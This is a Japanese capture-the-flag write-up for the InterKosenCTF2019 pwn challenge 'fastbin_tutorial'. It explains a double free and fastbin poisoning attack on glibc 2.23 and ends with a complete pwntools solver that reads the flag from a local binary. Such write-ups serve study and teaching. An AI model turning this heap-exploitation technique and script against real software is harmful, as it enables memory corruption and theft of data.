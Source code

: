 ```yaml
---
title: "fastbin_tutorial - InterKosenCTF2019"
date: 2022-05-07T22:17:57+09:00
tags: ["pwn", "InterKosenCTF", "ptr-yudai's chall"]
draft: false
---
```


# 方針
[公式writeup](https://hackmd.io/@theoldmoon0602/Hkebii9iN)では、Use After Freeでやっているのですが、
`Double Free Tutorial!`と出てくるので、double freeとfastbin unlink attackをやります。

## 注意点
最初に与えられる`flag`のアドレスから`0x10`を引かなければならない。

```c
char *flag;
:
void setup(void)
{
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  FILE *f = fopen("flag.txt", "r");
  flag = malloc(0x50);
  if (f == NULL) {
    puts("[WARN] Please report this bug to the author.");
    exit(1);
  }
  fread(flag, 1, 0x50, f);
  fclose(f);
  malloc(0x100); // assure no leak by freed FILE buffer
}
```

与えられたアドレスに直接繋ぐと、`Oops! You forgot the overhead...?`と教えてくれる。
`flag`は、mallocで確保されているので、本来のチャンクより`+0x10`のアドレスが返ってきている。[malloc.c L1126](https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c#L1126)

## fastbin に `addr_flag`を繋ぐ
あるチャンクに対して共有状態を作って、そのチャンクが返ってくるときに`addr_flag`が返ってくるようにします。

mallocしてあるチャンクをfreeします。
glibc-2.23だから`tcache`はないので、freeするとfastbinに繋がります。
### 事前準備
#### `A`をfree
```python
malloc("A")
malloc("B")
free("A")
```
```
fastbin: A -> NULL
```

#### `B`をfree
```
fastbin: B -> A -> NULL
```

#### double free `A`
ここで、既にfreeしてある`A`を再びfreeするので、double freeが起きます。
```
fastbin: A -> B -> A -> NULL
```

実体として、`fastbin`につながっている２つの`A`は同じものです。

### `A`の領域を確保してアドレスを書き込む
[![malloc_A](https://i.gyazo.com/019ace4843019b08d24c83fcd3cb9d97.png)](https://gyazo.com/019ace4843019b08d24c83fcd3cb9d97)

```
fastbin: B -> A -> NULL
```

mallocされた領域から見た`A`に`addr_flag`を書き込む（図の(1)）と、
fastbinに繋がっているchunkからは`fd`に書き込まれたように見える。

次のようになる。（図の(2)）
```
fastbin: B -> A -> addr_flag -> NULL
```

あとは、mallocを繰り返して、この`addr_flag`が返ってきた領域を`read`すればいい。

# [Solver](https://github.com/yu1hpa/ctf-writeup/tree/master/2019/InterKosenCTF/fastbin_tutorial)

```python
from pwn import *

file = "./chall"
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = process(file)

def malloc(s: str):
    io.sendlineafter("> ", "1")
    io.sendlineafter(": ", s)

def free(s: str):
    io.sendlineafter("> ", "2")
    io.sendlineafter(": ", s)

def read(s: str):
    io.sendlineafter("> ", "3")
    io.sendlineafter(": ", s)

def write(s: str, addr: hex):
    io.sendlineafter("> ", "4")
    io.sendlineafter(": ", s)
    io.sendlineafter("> ", addr)

io.recvuntil("located at ")
addr_flag = int(io.recvuntil(".").rstrip(b".\n"), 16)

malloc("A")
malloc("B")
free("A") # fastbin: A -> NULL
free("B") # fastbin: B -> A -> NULL
free("A") # fastbin: A -> B -> A -> NULL
malloc("A") # fastbin: B -> A -> NULL
write("A", p64(addr_flag - 0x10)) # fd(A) = addr_flag
# fastbin: B -> A -> addr_flag -> NULL
malloc("B") # fastbin: A -> addr_flag -> NULL
malloc("C") # fastbin: addr_flag -> NULL
malloc("A") # A = addr_flag
read("A") # read(addr_flag)


io.interactive()
```
